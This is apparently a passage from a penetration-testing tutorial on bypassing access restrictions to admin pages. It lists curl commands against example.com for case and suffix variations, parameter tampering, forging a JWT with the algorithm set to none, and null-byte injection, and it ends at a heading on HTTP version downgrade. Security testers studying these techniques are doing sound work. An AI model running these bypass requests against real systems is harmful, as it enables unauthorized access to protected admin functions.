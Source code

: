 curl https://example.com/admin
curl https://example.com/Admin
curl https://example.com/ADMIN
curl https://example.com/aDmiN
curl https://example.com/adMin
curl https://example.com/AdMiN
curl https://example.com/aDMIN
curl https://example.com/ADMIn
Add Suffixes

curl https://example.com/admin.json
curl https://example.com/admin.css
curl https://example.com/admin.js
curl https://example.com/admin.html
curl https://example.com/admin.php
curl https://example.com/admin.aspx
curl https://example.com/admin.xml
curl https://example.com/admin.txt
curl https://example.com/admin.bak
curl https://example.com/admin.old
curl https://example.com/admin.zip
curl https://example.com/admin.tar.gz
These tricks work when the server restricts /admin but allows /admin.json or other variants due to poor routing or file handling rules.

4. Parameter Tampering
Some servers apply security checks only to the path (e.g., /admin) and ignore query parameters. By appending benign or misleading parameters, you may bypass access controls or filtering rules.

Examples

curl "https://example.com/admin?unused_param=1"
curl "https://example.com/admin?redirect=allowed"
curl "https://example.com/admin?debug=true"
curl "https://example.com/admin?access=granted"
curl "https://example.com/admin?token=123"
5. JWT Token Tampering
When an application uses JWTs for authentication, altering the token’s payload such as changing “role”: “user” to “role”: “admin” — can lead to privilege escalation if the server doesn’t properly validate the signature or trust the token blindly.

Steps:

Decode the JWT at jwt.io.
Change the role and remove the signature (set algorithm to none).
Resend the token:
curl -H “Authorization: Bearer <MODIFIED_JWT>” https://example.com/adminarea
6. Null Byte Injection
Injecting a null byte (%00) can trick poorly implemented servers into truncating the URL path during processing, potentially bypassing access controls or file restrictions.

curl --path-as-is "https://example.com/admin.php%00.html"
curl --path-as-is "https://example.com/config.php%00.json"
curl --path-as-is "https://example.com/login.php%00?redirect=admin"
curl --path-as-is "https://example.com/user/profile%00.php"
curl --path-as-is "https://example.com/images/logo%00.jpg"
curl --path-as-is "https://example.com/admin%00.php"
curl --path-as-is "https://example.com/secret%00file.txt"
curl --path-as-is "https://example.com/uploads/file%00.zip"
7. HTTP Version Downgrade
Some servers treat HTTP/1.0 requests differently than HTTP/1.1, often bypassing security checks or applying less strict controls for compatibility reasons.
